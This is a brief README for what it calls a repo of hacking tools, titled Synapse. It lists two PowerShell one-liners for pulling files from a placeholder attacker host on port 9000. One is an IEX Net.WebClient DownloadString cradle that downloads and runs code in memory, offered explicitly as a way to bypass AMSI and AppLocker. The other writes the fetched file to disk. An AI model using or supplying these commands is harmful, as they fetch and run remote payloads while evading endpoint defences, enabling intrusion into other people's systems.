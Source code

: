 # Synapse

> Repo for hacking tools

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
